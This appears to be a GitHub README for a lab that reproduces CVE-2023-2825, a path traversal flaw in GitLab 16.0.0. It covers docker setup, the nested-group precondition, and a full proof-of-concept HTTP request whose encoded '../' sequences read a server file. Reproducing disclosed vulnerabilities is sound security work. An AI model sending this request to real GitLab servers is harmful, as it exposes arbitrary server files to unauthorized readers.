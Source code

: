# Gitlab Arbitrary File Read Vulnerability(CVE-2023-2825)

## Introduction

An issue has been discovered in GitLab CE/EE affecting only version `16.0.0`. An unauthenticated malicious user can use a path traversal vulnerability to read arbitrary files on the server when an attachment exists in a public project nested within **at least five groups**. This is a critical severity issue

## Setup

Run

```bash
docker-compose up
```

and access to `http://localhost:8080`,

```
user: root
password: you can get password with `sudo docker exec -it <container_id> grep 'Password:' /etc/gitlab/initial_root_password`
```

login and create a group with at least four sub group, create a project on the deepest sub group.

![](./images/SCR-20230526-kddz.png)

Open a issues with a attachment and you can get the download link of the attachment.

![](./images/SCR-20230526-kejh.png)

## Poc

Send request

```http
GET /group1/group2/group3/group4/group5/upload/uploads/120072527bd48ba58ba7ed45fd3538c8/%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2fVERSION  HTTP/1.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cache-Control: max-age=0
Host: 127.0.0.1:8080
If-Modified-Since: Fri, 26 May 2023 03:11:02 GMT
Proxy-Connection: keep-alive
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.0.0 Safari/537.36

```

and you will see the VERSION of gitlab

![](images/SCR-20230526-kpkp.png)

## References

1. https://about.gitlab.com/releases/2023/05/23/critical-security-release-gitlab-16-0-1-released
2. https://rce.moe/2023/05/25/Gitlab-CVE-2023-2825/
